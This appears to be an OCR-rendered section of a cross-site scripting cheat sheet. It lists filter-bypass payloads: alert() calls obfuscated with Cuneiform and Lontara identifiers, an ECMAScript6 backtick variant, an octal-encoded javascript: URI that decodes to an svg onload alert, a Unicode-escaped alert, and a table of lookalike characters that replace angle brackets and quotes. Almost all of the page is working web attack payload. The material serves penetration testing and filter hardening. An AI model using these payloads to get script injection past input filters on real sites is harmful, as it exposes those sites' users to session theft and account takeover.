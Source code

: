 ```javascript
𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀]
+(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀]
+𒀟][𒁹](𒀃[𒀀]+𒀃[𒈫]+𒉺[𒀆]+𒀟+𒌐+"(𒀀)")()
```

## Bypass using Lontara

```javascript
ᨆ='',ᨊ=!ᨆ+ᨆ,ᨎ=!ᨊ+ᨆ,ᨂ=ᨆ+{},ᨇ=ᨊ[ᨆ++],ᨋ=ᨊ[ᨏ=ᨆ],ᨃ=++ᨏ+ᨆ,ᨅ=ᨂ[ᨏ+ᨃ],ᨊ[ᨅ+=ᨂ[ᨆ]+(ᨊ.ᨎ+ᨂ)[ᨆ]+ᨎ[ᨃ]+ᨇ+ᨋ+ᨊ[ᨏ]+ᨅ+ᨇ+ᨂ[ᨆ]+ᨋ][ᨅ](ᨎ[ᨆ]+ᨎ[ᨏ]+ᨊ[ᨃ]+ᨋ+ᨇ+"(ᨆ)")()
```

More alphabets on [aem1k.com/aurebesh.js](http://aem1k.com/aurebesh.js/)

## Bypass using ECMAScript6

```html
<script>alert&DiacriticalGrave;1&DiacriticalGrave;</script>
```

## Bypass using Octal encoding

```javascript
javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76'
```

## Bypass using Unicode

This payload takes advantage of Unicode escape sequences to obscure the JavaScript function

```html
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
```

It uses Unicode escape sequences to represent characters.

| Unicode  | ASCII     |
| -------- | --------- |
| `\u0061` | a         |
| `\u006C` | l         |
| `\u0065` | e         |
| `\u0072` | r         |
| `\u0074` | t         |

Same thing with these Unicode characters.

| Unicode (UTF-8 encoded) | Unicode Name                 | ASCII | ASCII Name     |
| ----------------------- | ---------------------------- | ----- | ---------------|
| `\uFF1C` (%EF%BC%9C)    | FULLWIDTH LESS­THAN SIGN      | <     | LESS­THAN       |
| `\uFF1E` (%EF%BC%9E)    | FULLWIDTH GREATER­THAN SIGN   | >     | GREATER­THAN    |
| `\u02BA` (%CA%BA)       | MODIFIER LETTER DOUBLE PRIME | "     | QUOTATION MARK |
| `\u02B9` (%CA%B9)       | MODIFIER LETTER PRIME        | '     | APOSTROPHE     |
